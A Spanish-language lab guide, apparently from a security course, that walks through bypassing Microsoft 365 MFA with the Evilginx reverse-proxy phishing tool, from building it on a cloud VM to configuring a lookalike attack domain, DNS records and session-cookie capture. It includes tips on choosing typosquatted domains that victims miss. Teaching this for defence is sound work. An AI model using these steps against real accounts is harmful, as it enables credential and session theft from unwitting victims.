#  Saltar 2FA en cuentas de M365 con Evilginx
   
  
Requisitos:
1. Máquina ***Router-Ubu***.
2. Máquina ***Win 11***.
3. Teléfono móvil o emulador ***BlueStacks*** con la aplicación ***Microsoft Authenticator***.
3. Cuenta de ***M365 con MFA configurada***. (Nota: El profesor deberá aportar el tenant de 365)
4. Máquina virtual en Internet con ***dirección IP pública*** y ***Evilnginx instalado***. (Nota: El profesor aportará la VM)
5. Dominio de Internet.


Para poder saltar la MFA necesitamos capturar las credenciales que la víctima introduce en el cuadro de diálogo de autenticación de M365. Para conseguir eso, necesitamos realizar un ataque MitM y enviar un enlace malicioso (phishing).

El ataque MitM se realizará mediante ***Evilnginx***, que actuará como proxy inverso. Cuando la víctima reciba el enlace de phishing, conectará con la VM de Internet que tiene instalado Evilgninx que le mostrará el cuadro de diálogo de autenticación de Office 365. La víctima escribirá sus credenciales y evilginx, realizará una redirección hacia el servidor de autenticación de Microsoft.

En este momento, Microsoft solicitará a la víctima la introducción del ***segundo factor de autenticación***, que generalmente será a través de la aplicación ***Microsoft Authenticator***. Cuando la víctima escriba la información requerida, Microsoft enviará una ***cookie de autorización*** a la víctima, que será utilizada como token para los servicios de M365.

Puesto que el MitM sigue funcionando, Evilxginx también obtendrá dicha cookie de autorización.

En consecuencia, solo queda usar un navegador, importar la cookie que se ha capturado y ya se podrá acceder a los servicios de M365 de la víctima.

La siguiente imagen resume los eventos y actores que tienen lugar en una conexión normal con el servicio.



Ahora, podrás descubrir la configuración del ataque. Observa la imagen.



En este escenario el actor realiza un ataque de phishing a la víctima, por ejemplo mediante un correo electrónico en el que se indica que ha compartido con esta un enlace a un documento de Excel. Cuando la víctima hace clic en el vínculo malicioso, se conecta al servidor evilginx ***(1)***, donde éste muestra un cuadro de diálogo de inicio de sesión que es idéntico al original. Normalmente, la víctima no va a sospechar por dos razones.

1) Aunque en la barra de direcciones de su navegador aparece la URL y ésta no es la "oficial" de Microsoft, el dominio elegido por el actor de la amenaza suele ser muy parecido. También es muy normal, que los usuarios se limiten a hacer clic en el enlace y no miren la URL a la que se conectan.

2) Office 365 muestra con cierta frecuencia el diálogo de autenticación, por lo que la mayoría de los usuarios no advertirán que se trata de un falso servidor (evilginx) quien lo está mostrando.

En consecuencia la víctima escribe sus credenciales, que son capturadas por ***evilginx*** y, puestas a disposición del actor de la amenaza.

El resto de proceso es mu simple, Microsoft envía el reto de MFA y la víctima toma su teléfono móvil para escribir el código indicado ***(4)***. La aplicación de autenticación contacta con los servidores de Microsoft ***(5)*** que validan el factor de autenticacion. Se envía la cookie de sesión, con el token de autorización al proxy ***(6)***.

Ahora, ***evilginx*** envía el token de autorización al navegador de la víctima y lo redirige hacia la página de Office 365 ***(7)***. 

El actor  de la amenaza usa el token capturado para acceder a los recursos de Office 365 de la víctima ***(9)***. Además, también ha capturado la contraseña de la víctima.


## Ejercicio 1: Crear tenant de M365.

El profesor creará el tenant de M365.

Una vez creado, accedemos a él por medio de la página web de administración de M365.


En la máquina ***Win 11*** abrimos el navegador y nos conectamos a.
```
https://portal.office.com
```

Iniciar sesión con la credencial del administrador global del tenant.




## Ejercicio 2: Habilitar la MFA para el usuario de M365.

Accede al portal de administración y activa la MFA para el usuario, tal y como muestra la siguiente pantalla.




## Ejercicio 3: Configurar Microsoft authenticator en emulador Android.

Si lo prefieres puedes usar tu móvil. Nosotros usaremos el emulador de Android BlueStacks.

Crea una instancia de teléfono. Si usas BlueStacks 5, elige ***Pie 64-bit***.



Procede a descargar la instancia, e iníciala. El resultado será el siguiente.


Accede a la ***App Store***. Como el dispositivo es nuevo tendrás que configurarle una cuenta de ***Gmail***.

En la ***App Store***, localiza ***Microsoft Authenticator*** e instálala. 

Ahora, selecciona la opción ***Agregar una cuenta profesional o educativa***.



Iniciamos sesión con la credencial del usuario de 365 del tenant (Nota: El usuario será diferente al que muestra la captura de pantalla)



Escribimos la contraseña.



Avanzamos hasta llegar a la siguiente pantalla.



Como la aplicación ***Microsoft Authenticator*** está instalada, hacemos clic en ***Siguiente***.

Solo queda asociar la cuenta del usuario de 365 con la aplicación de autenticación, haz clic en el vínculo que señala la imagen.



La cuenta ha quedado configurada.



Si haces clic en ella, verás es OTP (One Time Password) que será usado como 2FA.



## Ejercicio 4. Crear una VM en Azure e instalar Evilginx

En Azure (o cualquier otro proveedor que permitar crear una VM con IP pública), creamos una instancia de un Ubuntu Server. Abrir los puertos 22, 80 y 443. Como usuario poner ***antonio*** y contraseña ***Pa55w.rd12345***.

En la configuración de los Grupos de Seguridad de Red (NSG) debemos abrir el puerto 53 por UDP de entrada. De forma que queden de la siguiente manera.



Tomamos la IP pública de la VM
```
PUBLIC_IP=<Poner aquí la IP Pública de la VM>
```

En una terminal de la máquina de Kali, escribimos.
```
ssh antonio@$PUBLIC_IP
```

Escribimos la contraseña
```
Pa55w.rd12345
```

Actualizamos los repositorios.
```
sudo apt update
```

Instalamos ***Git*** y el compilador de lenguaje ***Go***.
```
sudo apt install -y git golang-go
```

La documentación del proyecto la puedes encontrar en este sitio.
```
https://github.com/BakkerJan/evilginx2.git
```

Procedemos a clonar ***evilginx*** en la máquina virtual. En la terminal escribimos.
```
git clone https://github.com/BakkerJan/evilginx2.git
```

Entramos en la carpeta ***evilginx2***
```
cd evilginx2
```

Listamos el directorio
```
ls -l
```

El resultado es el siguiente. Observa como hay un archivo ***makefile***.



Esto significa que tenemos que preparar (compilar) la aplicación para que esta funcione. Necesitamos instalar el comando ***make***. En la terminal, escribimos.
```
sudo apt install make 
```

y después.
```
make
```

Instalamos.
```
sudo make install
```

Iniciamos evilginx.
```
sudo evilginx
```

Ya hemos comprobado que la aplicación funciona, así que salimos de ella pulsando la tecla ***q***.

Como has visto, ***evilginx*** se lanza desde una terminal. Eso es un problema en Linux, ya que cuando cerremos la conexión ***ssh*** el proceso de evilginx también finalizará. Necesitamos pues algo que mantenga la terminal abierta aunque cerremos la conexión de ssh y, de esta forma, consiga que evilginx se mantenga funcionando todo el tiempo. Para ello usaremos ***screen***.

Instalamos ***screen***.
```
sudo apt install screen
```

Creamos una screen.
```
screen
```

Para listar las screens que tenemos, escribimos.
```
screen -list
```

En la imagen puedes ver cómo existe una screen  que es en la que nos encontramos, porque pone ***Attached***. En esta screen es en la que ejecutaremos evilginx.


Para volver a la terminal original, pulsamos la siguiente combinación de teclas ***CTRL + a*** y ***CTRL + d***.

Volvamos a listar las screens.
```
screen -list
```

Ahora ya no estamos dentro de esa screen, sino en la terminal original. Como puedes ver, la imagen nos dice que existe una screen pero no estamos conectados a ella.



Para entrar en la screen, ejecutamos el comando siguiente. Nota, el identificador de la screen será diferente. Usa el que te aparezca.
```
screen -r 7045.pts-0.evilginx
```

En esta screen lanzaremos evilginx, así que escribe el siguiente comando.
```
sudo evilginx
```

Como puedes ver, evilginx se ha iniciado.


Vamos a dejarlo corriendo en esta screen, así que salimos de ella con ***CTRL + a*** y ***CTRL + d***. Volveremos posteriormente para configurar el ataque.

# Ejercicio 5: Crear un dominio de ataque y hacer que los servidores de zona apunten a evilginx.

Como hemos explicado al principio, el ataque se basa en conseguir que la víctima haga clic en un enlace que la lleve al servidor de evilginx. Por lo tanto, lo primero que debemos hacer es "contratar un dominio".

Para la autenticación con una cuenta de M365, el navegador del usuario conectará con ***login.microsoftonline.com***. Con la idea de engañar a la víctima y que no sospeche, intentaremos contratar un dominio que sea muy similar a este, observa la siguiente imagen.



Para la inmensa mayoría de los usuarios resultará imposible interpretar la diferencia entre.
```
login.microsoftonline.com
```

y
```
login.microsoft-on-line.com
```

El actor de la amenaza procederá a contratar dicho dominio. Para el resto del laboratorio, el dominio contratado no tiene como finalidad engañar al usuario y, además será fácilmente reconocible en esta práctica como dominio de ataque.

El dominio elegido es el siguiente
```
evilginx.antsala.xyz
```

Por lo que la DNS de ataque final tendría la forma de.
```
login.evilginx.antsala.xyz
```
Ahora es necesario que, cuando la víctima caiga en la trampa y haga clic en el link de phishing que se le enviará, su navegador conecte con los endpoint apropiados del servidor ***evilginx*** que simularán ser los auténticos. Para ello debemos hacer que el servidor de DNS que resuelva los registros del dominio elegido sea el propio ***evilginx***.

En la página del registrador debemos hacer que los registros ***NS*** apunten a la IP pública del servidor ***evilginx***.

Como en esta demostración, el servidor a usar es una máquina virtual en Azure, puedes ver el la siguiente imagen cómo se ha indicado que la zona ***antsala.xyz*** la lleva Azure.



Es el momento de ir a Azure y configurar una Zona de DNS, y para hacerla coincidir con el ejemplo, será una subzona, concretamente ***evilginx.antsala.xyz***.

Estudia la imagen.



Los endpoints de autenticación de Microsoft van a ser suplantados por el servidor ***evilginx***. Por esa razón, es necesario dar de alta ciertos registros de tipo A, que deberán apuntar a la IP pública en la que está el servidor ***evilginx***. En este caso ***login*** y ***www***. Más adelante, en el laboratorio, aprenderás a determinar los endpoints necesarios para hacer el hackeo.

# Ejercicio 4: Configuración de evilginx para realizar el ataque a una cuenta de M365.

De vuelta a la terminal de ssh, conectamos con la screen donde está corriendo ***evilginx***.

Lo primero que debemos hacer es configurar el dominio de ataque, que en nuestro ejemplo es
```
evilginx.antsala.xyz
```

Ejecutamos el siguiente comando.
```
config domain evilginx.antsala.xyz
```

El prompt indica que el dominio ha sido configurado correctamente.



Es el momento de indicar cuál es la IP pública del servidor ***evilginx***. Escribimos el siguiente comando.
```
config ip 20.107.49.100
```


Una vez que el servidor ***evilginx*** esté funcionando, observarás que empieza a tener conexiones. Esto se debe al tráfico de Internet, arañas incluidas. Nosotros no queremos que este tráfico se mezcle con la conexión que en breve realizará la víctima. Por ello, vamos a bloquear todo el tráfico excepto el de nuestra víctima. 

Aún queda un poco para crear los señuelos (***lures***) que se expresan como una un directorio dentro del servidor web, en la forma ***/DSSDFDGRTEDW*** u otra cadena aleatoria. Para ello ejecutamos el siguiente comando.

```
blacklist unauth
```

Las IPs provenientes de las conexiones al servidor que no tengan como destino el señuelo serán metidas en una lista negra y rechazadas a partir de ahora.



Es el momento de configurar el ***phishlet***, que es una forma de generalizar los ataques. De esta manera ***evilginx*** no solo puede atacar a M365, sino al resto de servicios importantes en Internet. 

Abandonamos momentáneamente la screen donde está corriendo ***evilginx***. Para ello pulsamos la combinación de t eclas ***CTRL+a, CTRL+d***. Volveremos a la terminal de ssh original. 

Lista el directorio. 

```
ls -l
```

Verás una carpeta llamada ***phishlets***.

